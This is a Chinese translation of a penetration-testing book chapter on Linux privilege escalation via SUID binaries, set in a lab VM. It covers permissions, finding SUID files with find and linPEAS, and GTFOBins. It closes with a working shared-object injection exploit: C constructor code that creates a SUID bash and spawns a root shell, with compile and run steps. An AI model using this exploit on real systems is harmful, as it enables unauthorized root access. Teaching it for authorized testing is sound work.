

# 第十三章：利用 SUID 二进制文件

我们将通过探索在 Linux 上查找和利用 SUID 二进制文件的过程来结束 Linux 上的权限提升过程，这有助于提升目标系统的权限。

本章将从查看 Linux 上文件系统权限的工作原理开始，接下来我们将了解 SUID 权限的工作方式以及它们是如何应用的。然后我们将了解如何搜索和识别易受攻击或配置错误的 SUID 二进制文件，最后探讨可以利用配置不当的 SUID 二进制文件提升权限的各种技术。

在本章中，我们将涵盖以下主要内容：

+   Linux 文件系统权限简介

+   查找 SUID 二进制文件

+   通过共享对象注入提升权限

# 技术要求

要跟随本章中的演示，您需要确保熟悉 Linux 终端命令。

您可以在此查看本章代码的实际操作：[`bit.ly/39Kdn1t`](https://bit.ly/39Kdn1t)

# Linux 文件系统权限简介

在我们开始探索利用 SUID 二进制文件提升权限的过程之前，我们需要简要了解 Linux 上的文件系统权限以及它们如何用于授予或限制对文件和目录的访问。这将为我们深入研究 SUID 二进制文件，它们是如何配置的以及如何利用它们提供帮助。

在 Linux 上，文件系统权限用于授予或限制对文件和目录的访问。这是一个非常有用的功能，因为它允许用户限制对特定文件或目录的访问，从而防止任何未经授权的访问。

我们可以通过运行以下命令列出文件或文件夹的权限：

ls -al

如下截图所示，此命令将输出目录中所有文件及其所有属性的列表，包括它们的访问权限和所有权详细信息：

图 13.1 – 文件权限

Linux 提供多用户支持。由于这一点，文件和数据的访问基于以下关键元素进行限制：

+   **文件所有权**：指拥有文件的特定用户或组。

+   **访问权限**：指用于允许或限制对特定文件的访问的具体权限。

每个 Linux 文件和目录都有一个所有者和特定的文件权限，用于防止未经认证或未经授权的访问。

就所有权而言，Linux 将文件所有权分为三个主要类别：

+   **用户**：用于指定文件的所有者。通常，文件的创建者成为文件的所有者。

+   **组**：这是用来指定文件的组所有权或访问权限，组内的所有用户将拥有相同的权限和对该文件的访问权限。只有该组的成员才能根据文件的访问权限读取、写入或执行文件。

+   **其他**：这是指系统中非文件所有者或不属于拥有文件所有权的组的其他用户的读、写或执行权限。

下图展示了 Linux 中文件所有权的分类，其中访问权限用于决定系统上特定文件的所有者、组和其他用户对该文件的访问权限类型：

图 13.2 – Linux 文件所有权

现在我们已经了解了文件所有权在 Linux 中的处理和实现方式，接下来我们来看看如何配置访问权限。

Linux 上的每个文件和目录都有特定的访问权限，用于决定该文件是否可以被读取、修改或执行。Linux 根据你希望提供给系统上用户和组的访问类型，将这些权限分为三类：

+   **读取**：此权限允许用户读取文件，用字母`r`表示。

+   **写入**：此权限允许用户修改或更改文件，用字母`w`表示。

+   **执行**：此权限允许用户执行或运行一个文件，并用字母`x`表示。

下图展示了系统中某个文件的所有者、组和其他用户的访问权限：

图 13.3 – 文件访问权限

在此示例中，文件的所有者具有读、写和执行权限，而组和其他用户仅具有读和执行权限，从而限制他们修改文件。

这个例子展示了 Linux 中文件所有权和访问权限的重要性，以及它们如何用于限制或授予对系统中文件和资源的访问。

## 更改权限

要更改文件和目录权限，我们可以使用`chmod`命令，简称为更改模式。

`chmod` 命令的语法可以通过多种格式定义，其中最常用的格式是符号模式格式。它为用户提供了一个简单易懂的语法，用于修改、设置和移除权限。下表展示了所有参数及其对应的功能：

让我们看看如何使用`chmod`修改文件和目录的权限。

我将使用一个简单的 Bash 脚本作为测试文件，演示权限如何影响访问。

如果我们想要给文件添加权限，我们可以使用 `+` 符号。让我们给脚本赋予可执行权限。我们可以通过以下语法来实现这一点：

chmod +x script.sh

如果我们想要给所有用户赋予可执行权限，我们可以使用以下命令：

chmod u+x script.sh

我们还可以在单个命令中使用多个权限，并使用逗号分隔选项。此命令将给组赋予可执行权限，并将所有用户和组赋予写权限：

chmod g+x, a+w script.sh

如果我们想要从文件中删除权限，我们可以使用 `-` 符号。此命令将删除所有用户的可执行权限。这将阻止脚本的执行：

chmod a-x script.sh

现在您已经对 Linux 上的文件系统权限工作原理有了功能性的理解，我们可以开始探讨 SUID 权限的工作方式及其用途。

## 理解 SUID 权限

除了三个主要的文件访问权限（读取、写入和执行）外，Linux 还为用户提供了特定情况下可用的专用权限。其中一个访问权限是 **设置所有者用户 ID**（**SUID**）权限。

应用此权限时，允许用户以文件所有者的权限执行脚本或二进制文件，而不是运行脚本或二进制文件的用户。

SUID 权限通常用于为非特权用户提供以 *root* 权限运行特定脚本或二进制文件的能力。然而，请注意，提供的提升权限仅限于执行脚本，并不转换为提升的权限。然而，如果它们没有被正确配置，非特权用户可以利用二进制文件或脚本中的配置错误或漏洞来获得提升的会话。

可以通过列出文件的相应所有权权限来轻松识别具有 SUID 访问权限的文件或二进制文件。如果应用于文件或二进制文件，执行权限（由字母 `x` 表示）将被替换为 SUID 权限，由字母 `s` 表示，如下面的截图所示：

图 13.4 – SUID 权限

如前面的截图所示，文件的所有者具有 SUID 访问权限，而组的成员和系统上的其他用户具有读取和执行权限，但没有写权限。在这种情况下，组的成员和系统上的其他用户将能够以 root 权限执行二进制文件，因为文件的所有者是 root 用户。

此权限非常有用，因为它为管理员提供了对文件或二进制文件的细粒度控制，可以控制谁可以访问它们，是否可以执行以及执行时的权限。

这是我们在本章中尝试利用的功能，以提升我们的权限。然而，正如你可能已经注意到的那样，我们攻击的成功将取决于以下因素：

+   **SUID 二进制文件的所有者**：考虑到我们尝试提升权限，我们只会利用 root 用户或其他特权用户拥有的 SUID 二进制文件。

+   **访问权限**：我们需要执行权限才能执行 SUID 二进制文件。

现在我们已经了解了 SUID 权限的工作原理，让我们来看一下如何在目标系统上搜索和识别 SUID 二进制文件。

# 搜索 SUID 二进制文件

在目标系统上搜索和识别 SUID 二进制文件的过程可以手动或自动执行。我们将分别介绍这两种方法，因为在某些限制性环境下，无法使用自动化工具时，手动搜索 SUID 二进制文件的技巧非常重要。

在本章中，我们将使用在 *第十一章*中设置的虚拟机，*Linux 密码挖掘*。

我们将首先学习如何通过利用内置的 Linux 工具手动搜索 SUID 二进制文件。

## 手动搜索 SUID 二进制文件

你可以通过使用 Linux 内置的 `find` 工具手动搜索 SUID 二进制文件。这使你能够在目标系统上搜索 SUID 二进制文件。为此，运行以下命令：

find / -type f -perm -u=s -ls 2>/dev/null

该命令将搜索具有 SUID 访问权限的文件，并显示每个文件或二进制文件的相应所有者。

如下图所示，我们可以识别出许多具有 SUID 权限的二进制文件。在这种情况下，它们都属于 root 用户：

图 13.5 – 手动搜索 SUID 二进制文件

下一步是识别可以被利用来提升权限的 SUID 二进制文件。然而，在我们这样做之前，我们需要探索自动化搜索 SUID 二进制文件的过程。

## 使用 linPEAS 搜索 SUID 二进制文件

我们可以通过使用自动化枚举工具来自动化搜索 SUID 二进制文件的过程。在这种情况下，我们将使用 `linPEAS` 脚本来枚举我们目标的信息。

注意

linPEAS 是一个本地 Linux 枚举脚本，用于搜索和扫描潜在的漏洞，同时列举所有可以用来进行权限提升攻击的重要系统信息。

linPEAS 二进制文件可以从以下 GitHub 仓库下载：[`github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)。

确保你下载了`linpeas.sh` Bash 脚本，如下截图所示：

](Images/B17389_13_006.jpg)

图 13.6 – linPEAS Bash 脚本

下载完 Bash 脚本到我们的 Kali 虚拟机后，我们需要将`linpeas.sh`文件传输到我们的目标虚拟机。由于没有 Meterpreter 会话，这不能自动完成。因此，我们需要使用 Linux 特定的工具来下载该二进制文件。

为了将`linpeas.sh`文件传输到我们的目标系统，我们需要在 Kali 虚拟机上设置一个 Web 服务器，用于托管该文件。这样，我们就可以在目标系统上下载它。可以通过以下步骤来完成：

1.  为了在我们的 Kali 虚拟机上设置一个 Web 服务器，我们可以利用`SimpleHTTPServer` Python 模块来提供脚本。可以通过在存储`linpeas.sh`二进制文件的目录中运行以下命令来实现：

    `sudo python -m SimpleHTTPServer 80`

    注意

    `SimpleHTTPServer`是一个适用于 Python2 的 Python 模块，对于 Python3，它也以`http.server`的形式提供。

    如下截图所示，`SimpleHTTPServer`模块将在 Kali 虚拟机的 IP 地址上通过`80`端口提供该目录中的文件：

    

    ](Images/B17389_13_007.jpg)

    图 13.7 – SimpleHTTPServer linpeas

1.  为了在目标系统上下载`linpeas.sh`文件，我们可以使用`wget`工具。然而，在下载该二进制文件之前，我们需要导航到一个有读写权限的目录。在这种情况下，我们将导航到临时目录，如下截图所示：

    ](Images/B17389_13_008.jpg)

    图 13.8 – Linux 临时目录

1.  我们现在可以使用`wget`工具从 Kali 虚拟机下载文件到我们的目标系统。可以通过在目标系统上运行以下命令来实现：

    `wget http://<KALI-VM-IP>/linpeas.sh`

    输出如下所示：

图 13.9 – wget linpeas

如前面的截图所示，如果传输成功，`linpeas.sh`文件应该已经下载并保存为我们指定的名称。

`linpeas.sh`脚本枚举了大量信息，并将执行各种检查以发现目标系统的潜在漏洞。我们可以使用`linpeas.sh`脚本来枚举并定位目标系统上的 SUID 二进制文件。

要枚举所有重要的系统信息，我们需要运行`linpeas.sh`脚本。但是，在此之前，我们需要确保脚本具有可执行权限。可以通过在目标系统上运行以下命令来实现：

chmod +x linpeas.sh

现在，我们可以通过在目标系统上运行以下命令来运行`linpeas.sh`脚本：

./linpeas.sh

如下图所示，脚本将枚举系统信息并显示目标系统上 SUID 二进制文件的列表：

](Images/B17389_13_010.jpg)

图 13.10 – linPEAS SUID 二进制文件

在这种情况下，我们可以识别出与手动搜索中找到的 SUID 二进制文件相同的文件。然而，linPEAS 还为我们提供了每个 SUID 二进制文件的潜在漏洞信息，这些漏洞可以被利用。在本章的后续部分，这些信息将非常有用。

现在我们已经能够搜索并识别目标系统上的所有 SUID 二进制文件，我们可以开始探索识别易受攻击且可以被利用的 SUID 二进制文件的过程。

## 识别易受攻击的 SUID 二进制文件

识别可以用来提升我们权限的易受攻击的 SUID 二进制文件可能是一个非常手动的过程，并且因系统而异，具体取决于可用的 SUID 文件。然而，我们可以通过利用名为 `GTFOBins` 的资源来简化这个过程。

GTFOBins 是一个经过精心策划的 Unix 二进制文件列表，可以利用这些文件绕过本地安全限制，在我们的案例中，用于提升我们的权限。

更多关于 GTFOBins 的信息可以在此找到：[`gtfobins.github.io/`](https://gtfobins.github.io/)。

我们可以使用 GTFOBins 网站上提供的信息来识别目标系统上的可被利用的二进制文件，以提升我们的权限。

GTFOBins 网站有一个专门的 SUID 类别，为我们提供了一份包含易受攻击的 SUID 二进制文件的列表，可以通过点击 SUID 类别访问，如以下截图所示：

图 13.11 – GTFOBins SUID 类别

SUID 类别将为你提供一个按字母顺序排列的易受攻击的 SUID 二进制文件及其相应功能的列表，如以下截图所示：

](Images/B17389_13_012.jpg)

图 13.12 – GTFOBins 易受攻击的 SUID 二进制文件

我们可以使用这份易受攻击的 SUID 二进制文件列表，来识别与目标系统上 SUID 二进制文件的潜在匹配项。然而，在我们的案例中，我们未能识别出任何匹配项。因此，我们将需要分析目标系统上的 SUID 二进制文件，以识别可能存在的漏洞，这些漏洞可以被利用。

此外，请注意，在以后的评估中不要忽视 GTFOBins 资源，因为你可能会遇到某些目标系统，其中确实存在可以被利用的易受攻击的 SUID 二进制文件。

在这种情况下，我们将不得不采取更为手动的方法，这需要分析目标系统上的 SUID 二进制文件。

# 通过共享对象注入进行权限提升

在前一节中，*搜索 SUID 二进制文件*，我们使用 linPEAS 识别了目标系统上的 SUID 二进制文件。然而，除了列出 SUID 二进制文件，linPEAS 还对这些 SUID 二进制文件执行了额外的漏洞检查，以确定它们是否可以被利用。

详细分析 linPEAS 的结果显示，linPEAS 执行并使用`strace`工具检查二进制文件，以识别二进制文件所使用的共享对象。

注意

`strace`是一个 Linux 工具，用于监视和调试应用程序及进程，以及它们与 Linux 内核的交互。

linPEAS 通过`strace`运行每个 SUID 二进制文件，以识别二进制文件使用的共享对象，并列出它们的各自位置，如下图所示：

图 13.13 – linPEAS 共享对象

如前面的截图所示，我们可以将`suid-so`二进制文件识别为潜在的目标，因为它使用了几个在目标系统上不存在的共享对象。然而，有一个特定的共享对象文件应该引起你的注意：`suid-so`二进制文件使用了一个名为`libcalc.so`的共享对象，该共享对象存储在`user`账户的主目录中。

注意

共享对象是 Linux 中相当于 Windows 中的**动态链接库**（**DLLs**），用于为 Linux 应用程序提供额外的功能。

由于我们目前是以`user`账户登录到目标系统，我们应该能够修改 SUID 二进制文件正在使用的共享库，从而执行任意命令。在我们的例子中，当执行`suid-so`二进制文件时，这将为我们提供一个提升的会话。

这种攻击方式与 Windows 的 DLL 注入技术非常相似，我们用一个修改过的 DLL 替换了目标 DLL，当目标服务执行时，这个修改过的 DLL 为我们提供了一个提升的反向 Shell。

在我们开始利用阶段之前，应该通过执行`suid-so`二进制文件来分析它的作用，因为该二进制文件存储在`/usr/local/bin`目录中。我们可以通过运行以下命令直接执行它：

suid-so

运行该二进制文件没有揭示出任何有用的信息，因为它仅仅执行一个计算并提供计算的进度条，如下图所示：

图 13.14 – 执行 SUID 二进制文件

另外，我们可以手动使用`strace`工具分析二进制文件使用了哪些共享对象，而不是使用自动化工具。可以通过运行以下命令来实现：

strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"

此命令将使用`strace`实用程序运行`suid-so`二进制文件，并使用 grep 限制`strace`产生的输出，这将确保仅显示二进制文件使用的共享对象：

图 13.15 – 使用 strace SUID 二进制文件的共享对象

如前述截图中所示，我们可以在**用户**帐户的主目录中找到`libcal.so`共享对象，就像我们使用 linPEAS 脚本时一样。

我们还可以通过使用内置的`strings`实用程序在二进制文件中搜索有用的字符串。可以通过运行以下命令来完成此操作：

strings /usr/local/bin/suid-so

如下截图所示，`strings`实用程序将输出在`suid-so`二进制文件中找到的字符串列表：

图 13.16 – 查找有用的字符串

在这种情况下，我们可以确定应用程序在**用户**帐户的主目录中使用了`libcalc.so`共享对象。如果您无法访问`strace`实用程序或任何自动枚举脚本（如 linPEAS），`strings`实用程序可能非常有用。

现在，我们对`suid-so`二进制文件的功能有了一个概念，知道它使用了哪些共享对象，并且已经确定了一个存在漏洞的共享对象，我们可以开始特权提升过程。

可以按照以下步骤执行特权提升过程：

1.  在此过程中的第一步涉及检查`libcalc.so`文件是否存在。可以通过列出**用户**帐户的主目录内容来完成此操作：

    `ls -al /home/user/`

    如下截图所示，用户帐户的主目录中不包含`.config`目录，其中包含`libcalc.so`共享对象文件。因此，我们需要自己创建`.config`目录并编译共享对象文件：

    

    图 13.17 – 用户的主目录

1.  运行以下命令可以在**用户**帐户的主目录中创建`.config`目录：

    `mkdir /home/user/.config`

    创建完`.config`目录后，需要创建`libcalc.c`文件。可以通过运行以下命令来完成此操作：

    `touch /home/user/.config/libcalc.c`

1.  下一步涉及将我们的自定义 C 代码添加到我们将要编译的`libcalc.c`文件中。使用你选择的终端文本编辑器打开刚刚创建的`libcalc.c`文件。在我的情况下，我将使用 VIM 并添加以下 C 代码：

    #include <stdio.h>

    #include <stdlib.h>

    static void inject() __attribute__((constructor));

    void inject() {

    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");

    }

    这段 C 代码利用了一个名为`inject`的自定义函数，该函数运行一个系统命令，将 Bash 二进制文件复制到 Linux 的`temp`目录。完成这一步后，它会为 Bash 二进制文件赋予 SUID 权限，并从`temp`目录执行它。由于`suid-so`二进制文件以 root 用户身份运行，并调用`libcalc.so`共享库，自定义的`libcalc.so`共享库文件也会以 root 权限执行，从而为我们提供提升的 Bash 会话。

    注意

    你还可以在`libcalc.c`中使用你自己的 C 反向 Shell 代码，它将连接到反向监听器，并为你提供一个提升的反向 Shell。

    一旦你添加了自定义代码，确保按照以下截图所示正确缩进：

    

    图 13.18 – 自定义的 libcalc.c 代码

    在按要求缩进并格式化代码后，确保保存代码再继续。现在，我们需要编译`libcalc.c`文件，以便获得`libcalc.so`共享库文件。

1.  我们可以通过运行以下命令用`Gnu C Compiler`（**GCC**）编译自定义的`libcalc.c`文件：

    `gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`

    这个命令将编译自定义的`libcalc.c`文件，并为我们提供自定义的`libcalc.so`共享库文件，从而为我们提供提升的会话。

    注意

    在用 GNU C 编译器(**gcc**)编译自定义代码时，我们使用了`-fPIC`标志，这可以确保我们的共享库中的代码是位置无关的，并且可以在内存中的任何地址加载。

    编译`libcalc.c`文件后，你现在应该在`user`账户的主目录中拥有自定义的`libcalc.so`文件，如下图所示：

    

    图 13.19 – 编译后的 libcalc.so 共享库

    现在我们已经准备好了自定义的`libcalc.so`共享文件，我们可以执行`suid-so`二进制文件。

1.  要执行自定义的`libcalc.so`共享库文件，我们需要执行`suid-so`二进制文件。这可以通过运行以下命令来完成：

    `suid-so`

    如果你按照前面的步骤正确操作，运行`suid-so`二进制文件应该会为你提供一个 Bash 会话，如下图所示：

    

    图 13.20 – Bash 会话

1.  我们可以通过运行以下命令来确认自己是否已经获得 root 权限的提升会话：

    `id`

    另外，你也可以通过运行以下命令来确定你当前登录的用户：

    `whoami`

    如下图所示，我们应该以 root 用户身份拥有提升的会话：

图 13.21 – 提升的 Bash 会话

在这过程中，我们成功地通过利用配置不当的 SUID 二进制文件来提升权限，该文件使用了存储在一个非特权用户账户主目录中的共享对象文件。

可以使用多种技术来利用 SUID 二进制文件。然而，过程中最重要的因素是彻底地枚举和收集目标 SUID 的尽可能多的信息，然后分析这些信息以查找潜在的配置错误或漏洞。这个过程因目标而异，因此需要敏锐的眼光和系统的方法来帮助识别 SUID 二进制文件中的配置错误或漏洞。

# 总结

在本章中，我们首先了解了 Linux 上的文件系统权限如何工作以及如何使用 SUID 权限。然后我们深入探讨了如何手动和自动地搜索和识别目标系统上的 SUID 二进制文件。我们还简要地介绍了识别易受攻击的 SUID 二进制文件的过程，然后讨论了如何通过利用配置错误的 SUID 二进制文件来提升权限。

如果你已经读到这里，恭喜你！你现在应该能够熟练地利用各种漏洞来提升 Windows 和 Linux 系统上的权限。

如果这是你首次接触权限提升的过程，你现在应该具备了识别和利用目标系统漏洞来提升权限所需的技能。

本书旨在成为一本实用指南，指导您如何从 Windows 和 Linux 目标中枚举尽可能多的信息，以及如何利用这些信息识别可以被利用来提升权限的漏洞。本书通过提供实践练习来验证您在每一章中学到的内容，以实现这一目标。

本书涵盖了 Windows 和 Linux 系统中最重要的权限提升向量，并为您提供了可以利用这些向量的实际场景。

希望你喜欢本书，并且无论你的技能水平如何，都能从每一章中获得价值，并且能够提升你的权限提升技能，增强作为渗透测试员的能力。
